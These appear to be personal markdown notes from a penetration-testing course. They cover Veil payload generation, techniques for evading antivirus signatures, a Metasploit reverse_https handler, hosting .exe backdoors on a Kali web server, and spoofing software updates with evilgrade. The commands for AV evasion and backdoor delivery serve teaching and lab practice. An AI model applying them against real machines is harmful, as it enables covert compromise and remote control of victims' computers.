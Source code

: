 ####use
- allows us to select the tool, payload, in general the helper we want to achieve our goal
- so after listing the avaiable options, *use <id>* to select the specific one and then veil lists the new available commands that can be used now

####set
- sets the required options that is listed
- use like *set LHOST <ip>*

##Antivirus programs
- they have very large database of signatures that corresponds to files that contain harmful codes
- so they compare the signature of our file to the all files in the database
- if there is a match, then the program flags our file as virus or malware
- if there is no match, gg eazy wp
- to bypass this, we modify our code as much as possible to make it more unique and the antivirus program will not recognize it
- veil is already doing for us but it can not bypass *AVG*
- to make the code look a little more different, set some options to random values which will not have much effect on the code
- for example, PROCESSORS->1, SLEEP->3 etc
- then type *generate* to create payload, veil will shows the created payload path and name
- you can check if it will be detected by antivirus programs by *checkvt* command but it is not %100 accurate
- also the website where the payload is checked by default *virustotal.com* shares the results with antivirus programs so it will be less
effective in future
- use *nodistribute.com* to test it, the scan will show which antivirus programs we bypass
- sometimes, the unnecessary options we set affect the results, so try changing them until you get all clean result
- antivirus programs update their databases so same payload might get detected in the future, so update veil regularly and always check the scan
results in nodistribute.com

##Listening to Incoming Connections
- by setting payload to reverse, the target is connecting to our computer
- for this to work, we need to open a port in our computer
- we set our port to 8080, so we should open port with number 8080
- do this in Metasploit by typing *use exploit/multi/handler*
- then set payload by typing *set PAYLOAD windows/meterpreter/reverse_https*, in fact the last 2 parts of the payload should be the same as the one
we selected in veil
- after this set LHOST to our IP and LPORT to 8080, actually the number we set LPORT to in veil
- then *exploit* to run it, now Metasploit will wait for connections and when the target opens backdoor, it will connect to us and Metasploit will
allow us to hack
- before applying the backdoor to somewhere, put it in the website of kali(same file in the kali where we changed *index.html*, *var/www/html*)
- first, make a directory in that path and put backdoors in that directory(*.exe* files)
- do not forget to start the webserver of kali by typing *service apache2 start*
- in the target machine, go to our IP address in web brower and to go to our directory, just type *<IP>/<folder*>

##Spoofing Software Updates
- a backdoor delivery method which a program says an update is available, and when the user allows the update, it will actually downloads and runs
the backdoor
- the only limitation of this method is that we need to be the man in the middle, no matter how
- programs have specific domains to check for updates
- when a program wants the update, it sends a request to the DNS server
- the DNS server answers with the IP of the update server then the user sends a direct request to update server to look for updates
- when we are man in the middle, when we get a update request, we respond with the IP of a hacker server running *evilgrade*
- *evilgrade* responds to user saying "there is an update yeah bro" and sends the IP of the backdoor
